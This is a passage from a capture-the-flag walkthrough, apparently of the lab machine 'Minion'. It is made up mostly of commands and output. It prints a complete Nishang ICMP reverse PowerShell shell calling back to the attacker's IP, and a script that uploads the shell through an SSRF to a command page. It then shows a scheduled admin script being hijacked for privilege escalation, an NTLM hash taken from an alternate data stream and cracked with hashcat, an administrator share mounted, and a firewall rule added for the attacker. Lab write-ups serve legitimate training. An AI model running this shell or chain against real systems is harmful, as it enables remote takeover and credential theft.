AdAAtAE4AdQBsAGwACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABpACAAKwA9ADEACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAcgBlAG0AYQBpAG4AaQBuAGcAaQBuAGQAZQB4ACAAPQAgACQAcwBlAG4AZABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAAgACUAIAAkAEIAdQBmAGYAZQByAFMAaQB6AGUACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAGkAZgAgACgAJAByAGUAbQBhAGkAbgBpAG4AZwBpAG4AZABlAHgAIAAtAG4AZQAgADAAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAZQBuAGQAYgB5AHQAZQBzADIAIAA9ACAAJABzAGUAbgBkAGIAeQB0AGUAcwBbACgAJABpACoAJABCAHUAZgBmAGUAcgBTAGkAegBlACkALgAuACgAJABzAGUAbgBkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAXQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAEkAQwBNAFAAQwBsAGkAZQBuAHQALgBTAGUAbgBkACgAJABJAFAAQQBkAGQAcgBlAHMAcwAsADYAMAAgACoAIAAxADAAMAAwADAALAAgACQAcwBlAG4AZABiAHkAdABlAHMAMgAsACAAJABQAGkAbgBnAE8AcAB0AGkAbwBuAHMAKQAgAHwAIABPAHUAdAAtAE4AdQBsAGwACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9AAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAZQBsAHMAZQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQASQBDAE0AUABDAGwAaQBlAG4AdAAuAFMAZQBuAGQAKAAkAEkAUABBAGQAZAByAGUAcwBzACwANgAwACAAKgAgADEAMAAwADAAMAAsACAAJABzAGUAbgBkAGIAeQB0AGUAcwAsACAAJABQAGkAbgBnAE8AcAB0AGkAbwBuAHMAKQAgAHwAIABPAHUAdAAtAE4AdQBsAGwACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9AAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABzAGUAbgBkAGIAeQB0AGUAcwAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACIAYABuAFAAUwAgACIAIAArACAAKABHAGUAdAAtAEwAbwBjAGEAdABpAG8AbgApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnACkACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAEkAQwBNAFAAQwBsAGkAZQBuAHQALgBTAGUAbgBkACgAJABJAFAAQQBkAGQAcgBlAHMAcwAsADYAMAAgACoAIAAxADAAMAAwACwAIAAkAHMAZQBuAGQAYgB5AHQAZQBzACwAIAAkAFAAaQBuAGcATwBwAHQAaQBvAG4AcwApACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKACAAIAAgACAAIAAgACAAIAB9AAoAIAAgACAAIAAgACAAIAAgAGUAbABzAGUACgAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgACQARABlAGwAYQB5AAoAIAAgACAAIAAgACAAIAAgAH0ACgAgACAAIAAgAH0ACgB9AAoACgBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwASQBjAG0AcAAgAC0ASQBQAEEAZABkAHIAZQBzAHMAIAAxADAALgAxADAALgAxADQALgAxADYACgA=
PS /root/minion>
PS /root/minion> $Decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Encoded))
PS /root/minion> $Decoded
function Invoke-PowerShellIcmp
{
<#
.SYNOPSIS
Nishang script which can be used for a Reverse interactive PowerShell from a target over ICMP.

.DESCRIPTION
This script can receive commands from a server, execute them and return the result to the server using only ICMP.

The server to be used with it is icmpsh_m.py from the icmpsh tools (https://github.com/inquisb/icmpsh).

.PARAMETER IPAddress
The IP address of the server/listener to connect to.

.PARAMETER Delay
Time in seconds for which the script waits for a command from the server. Default is 5 seconds.

.PARAMETER BufferSize
The size of output Buffer. Defualt is 128.

.EXAMPLE
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
# python icmpsh_m.py 192.168.254.226 192.168.254.1

Run above commands to start a listener on a Linux computer (tested on Kali Linux).
icmpsh_m.py is a part of the icmpsh tools.

On the target, run the below command.

PS > Invoke-PowerShellIcmp -IPAddress 192.168.254.226

Above shows an example of an interactive PowerShell reverse connect shell.

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-5.html
https://github.com/samratashok/nishang
#>
    [CmdletBinding()] Param(

        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

    )

    #Basic structure from http://stackoverflow.com/questions/20019053/sending-back-custom-icmp-echo-response
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True

    # Shell appearance and output redirection based on Powerfun - Written by Ben Turner & Dave Hardy
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    #Show an interactive PowerShell prompt
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)

        #Check for Command from the server
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            #Fragmant larger output into smaller ones to send to the server.
            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}

Invoke-PowerShellIcmp -IPAddress 10.10.14.16

PS /root/minion>
PS /root/minion> $Encoded | Out-File icmp.ps1.b64
```

```sh
root@kali:~/minion# ls -l icmp.ps1.b64
-rw-r--r-- 1 root root 11113 Jun 18 15:09 icmp.ps1.b64
root@kali:~/minion#
```

```sh
root@kali:~/minion# fold -w 120 icmp.ps1.b64 > tmp
root@kali:~/minion# mv tmp icmp.ps1.b64
root@kali:~/minion# vim icmp.ps1.b64
root@kali:~/minion# grep \+ icmp.ps1.b64
ZAAuAAoACgBQAFMAIAA+ACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAEkAYwBtAHAAIAAtAEkAUABBAGQAZAByAGUAcwBzACAAMQA5ADIA
RwBlAHQAQgB5AHQAZQBzACgAJwBQAFMAIAAnACAAKwAgACgARwBlAHQALQBMAG8AYwBhAHQAaQBvAG4AKQAuAFAAYQB0AGgAIAArACAAJwA+ACAAJwApAAoA
root@kali:~/minion# vim icmp.ps1.b64
```


Replace `+` &rarr; `%2b`

```sh
root@kali:~/minion# grep \+ icmp.ps1.b64
```

```sh
root@kali:~/minion# grep \= icmp.ps1.b64
SQBjAG0AcAAgAC0ASQBQAEEAZABkAHIAZQBzAHMAIAAxADAALgAxADAALgAxADQALgAxADYACgA=
root@kali:~/minion# vim icmp.ps1.b64
```


Replace `=` &rarr; `%3d`

```sh
root@kali:~/minion# grep \= icmp.ps1.b64
```

`sendshell.sh`

```sh
#!/bin/bash
export IFS=$'\n'
for line in $(cat icmp.ps1.b64); do
	lines="echo ${line} >> C:\Temp\icmp.ps1.b64"
	curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$lines"
done
```

```sh
root@kali:~/minion# bash sendshell.sh
Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 10.10.10.57...
* TCP_NODELAY set
* Connected to 10.10.10.57 (10.10.10.57) port 62696 (#0)
> GET /test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=echo%20ZgB1AG4AYwB0AGkAbwBuACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAEkAYwBtAHAACgB7ACAACgA8ACMACgAuAFMAWQBOAE8AUABTAEkA%20%3E%3E%20C%3A%5CTemp%5Cicmp.ps1.b64 HTTP/1.1
> Host: 10.10.10.57:62696
> User-Agent: curl/7.60.0
> Accept: */*
>
<----SNIP---->
```


```
http://127.0.0.1/cmd.aspx?xcmd=powershell $x=Get-Content c:\temp\icmp.ps1.b64; $decode=[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($x)); $decode > c:\temp\icmp.ps1
```


```
http://127.0.0.1/cmd.aspx?xcmd=powershell+$x%3dGet-Content+c%3a\temp\icmp.ps1.b64%3b+$decode%3d[System.Text.Encoding]%3a%3aUnicode.GetString([System.Convert]%3a%3aFromBase64String($x))%3b+$decode+>+c%3a\temp\icmp.ps1
```


```sh
root@kali:~/minion# python icmpsh_m.py 10.10.14.16 10.10.10.57
Windows PowerShell running as user MINION$ on MINION
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv> cd ..\..\

PS C:\windows> cd ..\

PS C:\> dir


    Directory: C:\


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----          9/4/2017   7:42 PM            accesslogs
d----         8/10/2017  10:43 AM            inetpub
d----         8/22/2013   8:52 AM            PerfLogs
d-r--         9/25/2017   1:51 AM            Program Files
d----         8/10/2017   9:42 AM            Program Files (x86)
d----         8/24/2017   1:28 AM            sysadmscripts
d----         6/18/2018   1:02 PM            temp
d-r--          9/4/2017   7:41 PM            Users
d----         9/10/2017  10:20 AM            Windows


PS C:\>
PS C:\> cd sysadmscripts

PS C:\sysadmscripts> dir


    Directory: C:\sysadmscripts


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         9/26/2017   6:24 AM        284 c.ps1
-a---         8/22/2017  10:46 AM        263 del_logs.bat


PS C:\sysadmscripts> type c.ps1
$lifeTime=1; # days

foreach($arg in $args)
{
    write-host $arg

    dir $arg | where {!$_.psiscontainer} | foreach
    {
        if((get-date).subtract($_.LastWriteTime).Days -gt $lifeTime)
        {
            remove-item ($arg + '\' + $_) -force
        }
    }
}

PS C:\sysadmscripts>
```

```sh
PS C:\sysadmscripts> type del_logs.bat
@echo off
echo %DATE% %TIME% start job >> c:\windows\temp\log.txt
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden -exec bypass -nop -file c:\sysadmscripts\c.ps1 c:\accesslogs
echo %DATE% %TIME% stop job >> c:\windows\temp\log.txt

PS C:\sysadmscripts>
```

```sh
PS C:\sysadmscripts> type \windows\temp\log.txt

PS C:\sysadmscripts> ls -l \windows\temp\


    Directory: C:\windows\temp


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         9/19/2017   5:14 AM            2AF4CA37-7C86-4991-9C66-13C6E4E960
                                             11-Sigs
d----         9/25/2017   1:52 AM            vmware-SYSTEM
-a---          9/6/2017   8:43 AM          0 DMI8B1A.tmp
-a---          9/6/2017   8:43 AM          0 DMI9770.tmp
-a---         6/18/2018   1:11 PM     203965 log.txt
-a---         6/17/2018   7:55 PM     123770 MpCmdRun.log
-a---         9/19/2017   5:14 AM      77730 MpSigStub.log
-a---         6/17/2018   7:26 PM        102 silconfig.log
-a---        12/24/2017  10:44 AM      18872 vmware-vmsvc.log
-a---         10/7/2017  11:57 PM       9430 vmware-vmusr.log
-a---         6/17/2018   7:25 PM        546 vmware-vmvss.log


PS C:\sysadmscripts> date

Monday, June 18, 2018 1:12:52 PM


PS C:\sysadmscripts>
```

```sh
PS C:\sysadmscripts> dir


    Directory: C:\sysadmscripts


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         9/26/2017   6:24 AM        284 c.ps1
-a---         8/22/2017  10:46 AM        263 del_logs.bat


PS C:\sysadmscripts> copy c.ps1 c.ps1.bak

PS C:\sysadmscripts> copy c:\temp\icmp.ps1 c.ps1

PS C:\sysadmscripts> dir


    Directory: C:\sysadmscripts


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         6/18/2018   1:05 PM       4170 c.ps1
-a---         9/26/2017   6:24 AM        284 c.ps1.bak
-a---         8/22/2017  10:46 AM        263 del_logs.bat


PS C:\sysadmscripts> type c.ps1
function Invoke-PowerShellIcmp
{
<#
.SYNOPSIS
Nishang script which can be used for a Reverse interactive PowerShell from a target over ICMP.

.DESCRIPTION
This script can receive commands from a server, execute them and return the result to the server using only ICMP.

The server to be used with it is icmpsh_m.py from the icmpsh tools (https://github.com/inquisb/icmpsh).

.PARAMETER IPAddress
The IP address of the server/listener to connect to.

.PARAMETER Delay
Time in seconds for which the script waits for a command from the server. Default is 5 seconds.

.PARAMETER BufferSize
The size of output Buffer. Defualt is 128.

.EXAMPLE
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
# python icmpsh_m.py 192.168.254.226 192.168.254.1

Run above commands to start a listener on a Linux computer (tested on Kali Linux).
icmpsh_m.py is a part of the icmpsh tools.

On the target, run the below command.

PS > Invoke-PowerShellIcmp -IPAddress 192.168.254.226

Above shows an example of an interactive PowerShell reverse connect shell.

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-5.html
https://github.com/samratashok/nishang
#>
    [CmdletBinding()] Param(

        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

    )

    #Basic structure from http://stackoverflow.com/questions/20019053/sending-back-custom-icmp-echo-response
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True

    # Shell appearance and output redirection based on Powerfun - Written by Ben Turner & Dave Hardy
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    #Show an interactive PowerShell prompt
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)

        #Check for Command from the server
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            #Fragmant larger output into smaller ones to send to the server.
            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}

Invoke-PowerShellIcmp -IPAddress 10.10.14.16


PS C:\sysadmscripts>
```

###### PrivEsc form IIS to Decoder

```sh
root@kali:~/minion# python icmpsh_m.py 10.10.14.16 10.10.10.57
Windows PowerShell running as user decoder on MINION
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\sysadmscripts

PS C:\sysadmscripts> type c.ps1.bak
$lifeTime=1; # days

foreach($arg in $args)
{
    write-host $arg

    dir $arg | where {!$_.psiscontainer} | foreach
    {
        if((get-date).subtract($_.LastWriteTime).Days -gt $lifeTime)
        {
            remove-item ($arg + '\' + $_) -force
        }
    }
}

PS C:\sysadmscripts> del /f c.ps1

PS C:\sysadmscripts> copy c.ps1.bak c.ps1

PS C:\sysadmscripts> type c.ps1
$lifeTime=1; # days

foreach($arg in $args)
{
    write-host $arg

    dir $arg | where {!$_.psiscontainer} | foreach
    {
        if((get-date).subtract($_.LastWriteTime).Days -gt $lifeTime)
        {
            remove-item ($arg + '\' + $_) -force
        }
    }
}

PS C:\sysadmscripts> cd C:\Users\decoder.MINION\Desktop

PS C:\Users\decoder.MINION\Desktop> type user.txt
40b949f92b86b19a77986af9faf91601

PS C:\Users\decoder.MINION\Desktop>
```

###### NTFS File Stream

```sh
PS C:\sysadmscripts> Get-Item -Path c:\users\decoder.MINION\Desktop\backup.zip -stream *


   FileName: C:\users\decoder.MINION\Desktop\backup.zip

Stream                   Length
------                   ------
:$DATA                   103297
pass                         34


PS C:\sysadmscripts>
```

```sh
PS C:\Windows\system32> type c:\users\decoder.MINION\Desktop\backup.zip:pass
28a5d1e0c15af9f8fce7db65d75bbf17

PS C:\Windows\system32>
```

```sh
root@kali:~/minion# hashid 28a5d1e0c15af9f8fce7db65d75bbf17
Analyzing '28a5d1e0c15af9f8fce7db65d75bbf17'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
root@kali:~/minion#
```

```sh
root@kali:~/minion# hashcat -h | grep NTLM
   5500 | NetNTLMv1                                        | Network Protocols
   5500 | NetNTLMv1+ESS                                    | Network Protocols
   5600 | NetNTLMv2                                        | Network Protocols
   1000 | NTLM                                             | Operating Systems
root@kali:~/minion#
```

```sh
root@kali:~/minion# hashcat -a0 -m 1000 28a5d1e0c15af9f8fce7db65d75bbf17 /usr/share/wordlists/rockyou.txt --force
hashcat (v4.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i5-6360U CPU @ 2.00GHz, 512/1497 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=1000 -D _unroll'
* Device #1: Kernel m01000_a0.4c816226.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921512
* Keyspace..: 14344386

28a5d1e0c15af9f8fce7db65d75bbf17:1234test

Session..........: hashcat
Status...........: Cracked
Hash.Type........: NTLM
Hash.Target......: 28a5d1e0c15af9f8fce7db65d75bbf17
Time.Started.....: Mon Jun 18 17:48:05 2018 (1 sec)
Time.Estimated...: Mon Jun 18 17:48:06 2018 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:  1686.9 kH/s (0.75ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1122304/14344386 (7.82%)
Rejected.........: 0/1122304 (0.00%)
Restore.Point....: 1118208/14344386 (7.80%)
Candidates.#1....: 1234victor -> 102030l
HWMon.Dev.#1.....: N/A

Started: Mon Jun 18 17:47:54 2018
Stopped: Mon Jun 18 17:48:08 2018
root@kali:~/minion#
```

###### net use to mount C: as Administrator

```sh
PS C:\Windows\system32> net use y: \\localhost\c$ /user:administrator 1234test
The command completed successfully.


PS C:\Windows\system32> dir Y:\Users\Administrator\Desktop


    Directory: Y:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         9/26/2017   6:18 AM     386479 root.exe
-a---         8/24/2017  12:32 AM         76 root.txt


PS C:\Windows\system32> type Y:\Users\Administrator\Desktop\root.txt
In order to get the flag you have to launch root.exe located in this folder!

PS Y:\>
PS C:\Windows\system32> Y:\Users\Administrator\Desktop\root.exe
Are you trying to cheat me?

PS C:\Windows\system32>
PS C:\Windows\system32> copy Y:\Users\Administrator\Desktop\root.exe Y:\inetpub\public

PS C:\Windows\system32>
```

###### Analyze root.exe

```
http://10.10.10.57:62696/root.exe
```


`decrypt.py`

```python
for char in '/2^c`.5_423a_.2-521/5-.26/5^.`c':
    print(chr(ord(char)+3),end="")
```

```sh
root@kali:~/minion# python3 decrypt.py
25afc18b756db15085428015928a1cf
root@kali:~/minion#
```

###### Invoke-Command to execute root.exe as admin

```sh
PS C:\Windows\system32> $user = 'administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { cd C:\Users\Administrator\Desktop; C:\Users\Administrator\Desktop\root.exe }
25afc18b756db15085428015928a1cf1

PS C:\Windows\system32>
```

###### Create a firewall rule for RDP

[`New-NetFirewallRule`](https://docs.microsoft.com/en-us/powershell/module/netsecurity/new-netfirewallrule?view=win10-ps)

```sh
PS C:\Windows\system32> $user = 'administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { New-NetFirewallRule -DisplayName kan1shka9 -RemoteAddress 10.10.14.16 -Direction inbound -Action Allow }
```


